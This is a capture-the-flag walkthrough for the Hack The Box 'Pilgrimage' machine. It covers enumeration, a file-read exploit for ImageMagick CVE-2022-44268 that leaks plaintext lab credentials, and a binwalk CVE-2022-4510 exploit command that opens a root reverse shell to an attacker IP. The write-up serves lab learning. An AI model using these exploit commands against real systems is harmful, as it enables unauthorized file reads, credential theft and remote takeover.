 # Challenge Name

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Pilgrimage
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
nmap -sC -sV -v 10.10.11.219

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
| http-git:
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration


<details>
<summary>dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://pilgrimage.htb/'

/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
```
</details>

## Foothold

### Web → `emily` 🚩

#### Searching for Vulnerabilities

- the nmap scan shows that a Git repository is accessible at `/.git`, we can download the repository using [GitTools](https://github.com/internetwache/GitTools)
- the `index.php` from the Git repository shows that an SQLite database is being accessed at `/var/db/pilgrimage`
    
    ```php
    $db = new PDO('sqlite:/var/db/pilgrimage');
    ```
- The website can compress uploaded images. A compressed image can be downloaded and analyzed with `identify`:
    
    ```
    identify -verbose image.png
    
    ...
    Version: ImageMagick 6.9.11-60 Q16 aarch64 2021-01-25 https://imagemagick.org
    ```
- The website uses ImageMagick 6.9.11, for which an exploit for **LFI (local file inclusion)** exists *(CVE-2022-44268)*
    - https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

#### Exploitation

1. Generate an image using `pngcrush` to leak contents of SQLite database `/var/db/pilgrimage`:
    
    ```bash
    pngcrush -text a "profile" "/var/db/pilgrimage" image.png
    ```
2. After uploading the generated image, we can download the compressed version of it and analyze it using `identify -verbose`. At the end of the output we can see a large block of hex values:
    
    ![Screenshot of output from identify command](assets/identify-output.png)
3. Decoding the hex block e.g. using CyberChef will reveal credentials:
    - username: `emily`
    - password: `abigchonkyboi123`
4. With these credentials we can login via ssh as `emily`. 🚩

## Privilege Escalation

### `emily` → `root` 🏁

#### Searching for Vulnerabilities

- `ps aux` shows a suspicious process running from root:
    
    ```
    root         690  0.0  0.0   6816  2984 ?        Ss   05:42   0:00 /bin/bash /usr/sbin/malwarescan.sh
    ```
- the script `malwarescan.sh` executes the command `binwalk` on every file that is uploaded under `/var/www/pilgrimage.htb/shrunk/`
- an exploit exists for the version of `binwalk` that enables **RCE (remote command execution)** *(CVE-2022-4510)*:
    - https://www.exploit-db.com/exploits/51249

#### Exploitation

1. We can use the [exploit](https://www.exploit-db.com/exploits/51249) to create a manipulated PNG file containing a RCE for a reverse shell:
    
    ```bash
    python3 51249.py Example.png 10.10.16.3 9002
    ```
2. After uploading `binwalk_exploit.png` in `/var/www/pilgrimage.htb/shrunk/` on the target, we get reverse shell access for root. 🏁
